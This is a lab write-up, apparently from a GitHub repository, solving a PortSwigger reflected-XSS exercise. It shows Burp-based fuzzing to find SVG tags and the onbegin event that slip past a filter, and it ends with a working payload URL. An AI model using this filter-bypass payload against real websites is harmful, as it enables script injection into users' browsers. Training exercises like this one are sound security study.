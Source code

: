 # Reflected XSS with some SVG markup allowed
Lab URL :- `https://portswigger.net/web-security/cross-site-scripting/contexts/lab-some-svg-markup-allowed`

In Burp edit search bar payload :- 

Cheatsheet :- `https://portswigger.net/web-security/cross-site-scripting/cheat-sheet`
Normal Payload :- 

![image](https://user-images.githubusercontent.com/60841283/153717718-30b81eb3-cb2b-45b3-b52a-7d2fe7aac0e2.png)

## Fuzzing

* In payload <$$> ,first add Tags in clipboard

![image](https://user-images.githubusercontent.com/60841283/153717552-075f71b2-2db7-486b-8be3-c2bc5ed2577a.png)

We see some Tags don't cause this error such as svg, animatetransform, image, title

![image](https://user-images.githubusercontent.com/60841283/153718263-0890e56f-410c-462f-9750-09c8c18a20df.png)

* Update search payload <svg><animatetransform+$$=1> ,copy Events to Clipboard and paste in payload set.
  
![image](https://user-images.githubusercontent.com/60841283/153719984-70f7b2ee-6e44-4f5f-8e0c-8ab7880ca4a5.png)

We get 200 Status code only for event onbegin

## Trigger XSS

`https://ac601f8a1f21b805c064d4b1006f0010.web-security-academy.net/?search=<svg><animatetransform+onbegin=alert()>`
 
![image](https://user-images.githubusercontent.com/60841283/153720091-df043e3b-f1b6-4e24-ac4c-50483c6b9a31.png)
